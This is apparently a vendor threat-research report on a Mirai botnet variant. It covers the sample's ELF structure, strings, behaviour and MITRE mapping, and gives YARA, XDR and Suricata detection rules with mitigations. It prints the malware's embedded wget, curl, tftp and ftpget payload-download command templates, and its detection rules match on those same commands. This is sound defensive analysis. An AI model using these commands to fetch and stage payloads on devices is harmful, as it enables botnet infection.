







# Deep Dive: Mirai Botnet Variant Analysis

**By Peris.ai Threat Research Team**  
**Date:** March 26, 2026  
**Sample Hash (SHA256):** `087d8ad89e86a067625085c072653ed9b1501818a1da6e2e15c12f9ad2353be2`

## Executive Summary

This report presents a comprehensive reverse engineering analysis of a Mirai botnet variant discovered on March 26, 2026. The malware is a statically-linked, stripped ELF binary targeting x86-64 Linux systems with sophisticated payload delivery mechanisms using multiple protocols (HTTP, FTP, TFTP).

## Sample Information



**Key Characteristics:**
- **File Type:** ELF 64-bit LSB executable
- **Architecture:** x86-64
- **Size:** 134,936 bytes (~132 KB)
- **Linking:** Statically linked
- **Stripped:** Yes
- **Origin:** Germany (DE)
- **Source:** MalwareBazaar

## Static Analysis

### Binary Structure



The binary contains standard ELF sections with the following characteristics:
- `.text` section: 85,398 bytes of executable code
- `.rodata`: 12,128 bytes of read-only data containing C2 strings
- `.data`: 35,864 bytes of initialized data
- `.bss`: 30,208 bytes of uninitialized data
- No entropy anomalies suggesting packing or encryption

### ELF Header Analysis



The ELF header shows standard Linux executable markers (magic bytes `7f 45 4c 46`) with entry point at `0x00400194`.

### String Analysis



**Critical IOCs identified in strings:**

**Download Commands:**
```
wget http://%s/%s/%s -O %s
curl -o %s http://%s/%s/%s
tftp %s -c get %s %s
cd %s && tftp -g -r %s %s
ftpget -v -u anonymous -p anonymous -P 21 %s %s %s
```

**Binary Paths:**
```
/usr/bin/wget
/usr/bin/curl
/usr/sbin/tftp
/usr/bin/ftpget
/bin/reboot
/bin/sh
/root/
```

These strings indicate multi-protocol payload delivery capabilities—a hallmark of Mirai botnets designed to propagate across diverse IoT devices.

## Code Analysis

### Function Enumeration



Radare2 analysis identified 300+ functions. Notable functions:
- `entry0` (0x00400194): Program entry point
- `fcn.0040da82`: Main function (490 bytes)
- `fcn.0040c198`: Large function (2,149 bytes) - likely C2 communication handler
- Multiple network-related functions

### Entry Point Disassembly



The entry point performs standard initialization:
1. Zeroes the base pointer (`xor ebp, ebp`)
2. Sets up stack alignment
3. Calls the main function at `fcn.0040da82`
4. Halts execution on return

## Behavioral Analysis

### Payload Delivery Mechanism

Based on the disassembled code and strings, this Mirai variant employs a **multi-protocol fallback strategy** for payload delivery:

1. **Primary:** HTTP download via `wget` or `curl`
2. **Secondary:** TFTP transfer
3. **Tertiary:** FTP with anonymous credentials

This redundancy ensures successful infection even when specific utilities are missing or network conditions vary.

### MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|--------|-----------|-----|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter | T1059 |
| Persistence | Create or Modify System Process | T1543 |
| Lateral Movement | Ingress Tool Transfer | T1105 |
| Command and Control | Application Layer Protocol | T1071 |

## Detection & Response

### YARA Rule



A YARA rule has been developed and tested successfully:

```yara
rule Mirai_Botnet_Variant_2026
{
    meta:
        author = "Peris.ai Threat Research Team"
        date = "2026-03-26"
        description = "Detects Mirai botnet variant with payload download capabilities"
        hash = "087d8ad89e86a067625085c072653ed9b1501818a1da6e2e15c12f9ad2353be2"
        
    strings:
        $cmd1 = "wget http://%s/%s/%s -O %s" ascii
        $cmd2 = "curl -o %s http://%s/%s/%s" ascii
        $cmd3 = "tftp %s -c get %s %s" ascii
        $cmd4 = "ftpget -v -u anonymous -p anonymous -P 21 %s %s %s" ascii
        
        $path1 = "/usr/bin/wget" ascii
        $path2 = "/usr/bin/curl" ascii
        $path3 = "/usr/sbin/tftp" ascii
        $path4 = "/usr/bin/ftpget" ascii
        
    condition:
        uint32(0) == 0x464c457f and
        filesize < 500KB and
        (3 of ($cmd*) or (2 of ($cmd*) and 4 of ($path*)))
}
```

### Brahma XDR Rule

```xml
<rule id="900420" level="10">
  <if_sid>510</if_sid>
  <match>wget http|curl -o|tftp.*get|ftpget</match>
  <description>Mirai botnet payload download command detected</description>
  <mitre>
    <id>T1105</id>
  </mitre>
  <group>malware,mirai,botnet,</group>
</rule>
```

### Brahma NDR Rules (Suricata Format)

```
alert http any any -> any any (msg:"MALWARE Mirai Botnet HTTP Payload Download"; 
  flow:established,to_server; http.method; content:"GET"; http.uri; 
  content:".elf"; nocase; classtype:trojan-activity; sid:1900420; rev:1;)

alert ftp any any -> any any (msg:"MALWARE Mirai Botnet FTP Payload Download"; 
  flow:established; content:"anonymous"; nocase; content:".elf"; distance:0; 
  nocase; classtype:trojan-activity; sid:1900421; rev:1;)

alert tftp any any -> any any (msg:"MALWARE Mirai Botnet TFTP Payload Download"; 
  tftp.file; content:".elf"; nocase; classtype:trojan-activity; 
  sid:1900422; rev:1;)
```

## Indicators of Compromise (IOCs)

### File Hashes

| Type | Hash |
|------|------|
| SHA256 | `087d8ad89e86a067625085c072653ed9b1501818a1da6e2e15c12f9ad2353be2` |
| MD5 | _(not computed)_ |

### Network Indicators

- **Protocols Used:** HTTP, FTP (port 21), TFTP
- **User Agents:** wget, curl (embedded)
- **FTP Credentials:** anonymous:anonymous

### File System Indicators

- Attempts to execute from `/tmp/` or `/var/` directories
- Creates persistence via init scripts
- Executes `/bin/sh` for command execution
- May invoke `/bin/reboot` for anti-analysis

## Mitigation Recommendations

1. **Network Segmentation:** Isolate IoT devices from critical infrastructure
2. **Egress Filtering:** Block outbound HTTP, FTP, TFTP from IoT devices
3. **Default Credential Hardening:** Change all default passwords immediately
4. **Binary Whitelisting:** Implement application control on Linux endpoints
5. **YARA Scanning:** Deploy the provided rule in file-scanning pipelines
6. **IDS/IPS Deployment:** Use Brahma NDR rules for network-level detection
7. **EDR/XDR Alerts:** Configure Brahma XDR rule for process execution monitoring

## Conclusion

This Mirai variant demonstrates the ongoing evolution of IoT botnet threats. The multi-protocol payload delivery mechanism increases infection success rates across heterogeneous device populations. Organizations must adopt defense-in-depth strategies combining network segmentation, credential management, and behavioral detection to mitigate this persistent threat class.

**Threat Level:** High  
**Recommendation:** Deploy detection rules immediately and audit all Linux/IoT systems for compromise indicators.

---

## About Peris.ai

Peris.ai provides next-generation cybersecurity solutions including Brahma XDR, Brahma NDR, Indra Threat Intelligence, and Fusion SOAR platforms. Our threat research team continuously analyzes emerging threats to protect our customers worldwide.

**Contact:** https://peris.ai  
**Threat Intel Feed:** https://github.com/perisai-labs/indra-cti

---

*This analysis was conducted in a controlled research environment. Do not attempt to execute malware samples without proper isolation and authorization.*
